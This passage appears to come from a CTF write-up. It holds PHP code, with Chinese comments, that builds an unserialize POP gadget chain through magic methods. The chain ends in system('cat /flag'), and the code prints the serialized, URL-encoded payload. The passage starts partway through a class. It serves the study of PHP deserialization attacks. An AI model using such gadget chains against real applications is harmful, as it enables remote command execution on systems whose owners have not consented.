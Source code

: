 ```php
    public function __call($func, $vars)
    {
        $this->obj->end();//调用了CTF（）里的end()方法
    }
 
}
 
class Super{
    protected $obj;
	public function __construct()
 
    {
 
        $this->obj=new Handle();//为protected $obj赋值
    }
    public function __invoke()
    {
        $this->obj->getStr();//Handle 类没有定义 getStr() 方法，因此在调用这个方法时会触发 handle里的__call() 魔术方法
    }
 
    public function end()
    {
        die("==GAME OVER==");
    }
}
 
class CTF{
    public $handle;
 
    public function __construct()
 
    {
 
        $w=new WhiteGod();
 
        $this->handle=$w;
 
    } 
    public function end()
    {
        unset($this->handle->log);//在这个end()方法中我们试图用unset（）删除WhiteGod()里面的log属性
    }
 
}
 
class WhiteGod{
    public $func='system';
    public $var="cat /flag";
 
    public function __unset($var)
    {
        ($this->func)($this->var);    
    }
}
$b=new Begin();
$b->name=new Then();
echo urlencode(serialize($b)); 

```
